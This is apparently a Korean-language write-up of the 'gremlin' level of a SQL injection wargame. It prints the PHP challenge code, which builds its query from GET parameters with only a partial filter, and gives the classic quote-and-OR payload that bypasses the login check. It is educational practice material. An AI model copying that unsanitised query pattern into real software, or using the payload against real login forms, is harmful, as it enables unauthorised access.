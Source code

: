 # gremlin

## 1. Code
```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```

## 2. Condition
- GET 방식으로 id와 pw를 받는다.
- 작은 따옴표(0x27)를 필터링 하지 않고 있다.

## 3. Solution
변수명 | 값
---|---:
`id` | 1234
`pw` | 1234' or '1'='1

가장 기본적인 sql-injection예제이다.

해당 값을 보내면, query 속 조건은 다음과 같다.

**select id from prob_gremlin where id='1234' and pw='1234' or '1'='1'**

조건문은 `id='1234' and pw='1234'`와 `'1'='1'`부분으로 나누어 생각하면 쉽다.
두 조건문 중 하나만 참이어도 참이 되므로, id를 가져오게 된다.
